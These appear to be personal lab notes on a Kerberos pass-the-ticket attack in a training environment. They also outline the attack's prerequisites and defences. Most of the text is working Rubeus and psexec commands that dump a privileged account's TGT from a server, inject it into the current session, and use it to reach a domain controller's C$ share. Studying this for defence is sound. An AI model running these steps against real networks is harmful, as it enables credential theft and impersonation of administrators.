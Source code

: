
To see : 

Source : 


Kerberos

rubeus.exe dump /user:katrina.mendoza.adm /service:krbtgt

rubeus.exe ptt /ticket:


Extract the TGT from the LSASS memory 
	▪ This requires the seDebugPrivilege 
	▪ Requires that the targeted identity has cached its credentials 
Inject the TGT into your current session 
	▪ Either locally, or later on other systems by exporting it to a file 
	▪ The “new” ticket is used to request new service tickets 
Does not trigger any failed authentication attempts

This is possible because the hash is in the memory Needed for Single Sign-On


Attack’s pre-requisites Protection - A victim is connected to the system, or a service is running under a user account - seDebugPrivilege, or LSASS memory dump 
Protection
- Healthy administration practices (do not connect to untrusted systems with privileged accounts, use RDP restricted mode or remote credential guard)



## Step of pass-the-ticket attack

Try to steal the TGT of a privileged account to impersonate his or her on other system without knowing her password.



### Export tickets out of SRV

 `psexec.exe \\SRV01 cmd.exe -accepteula`

```powershell
rubeus.exe dump /user:katrina.mendoza.adm /service:krbtgt
```

Result : 
![[Pasted image 20231024213403.png]]

Save the result in `C:\Users\Public\tgt.txt`

### Inject stolen tickets into memory

Put the base64 ticket into your clipboard. In the **Windows Terminal** window, run `(Get-Content C:\Users\Public\tgt.txt) -join "" -replace " " | clip`.

Run klist. It should return a bunch of Kerberos ticket. The one for your current session. Note that all of them are for the Client: red @ CONTOSO.COM. Those tickets were obtains thanks to our TGT. You can see the TGT by running klist tgt. It should look like this: 
![[Pasted image 20231024213850.png]]

4. Change the active directory by running `cd \Tools\Ghostpack` and then type but do not execute `rubeus.exe ptt /ticket:` then before hitting Enter, make sure you place your cursor on the terminal and do a right click anywhere in the console. This should paste the content of your clipboard in the console. Then hit **Enter**. It should look like this: ![v2nlpjjb.png](https://labondemand.blob.core.windows.net/content/lab127288/v2nlpjjb.png)
    
5. Still in the **Windows Terminal** window, run `klist`. All your tickets are gone and being replaced by the one you've stolen from SRV01.
    
6. In the same console, try again to browse the C$ share of a domain controller by running `dir \\DC01\C$`.
    

List all tickets by running `klist`. You now have three tickets:
![[Pasted image 20231024213937.png]]


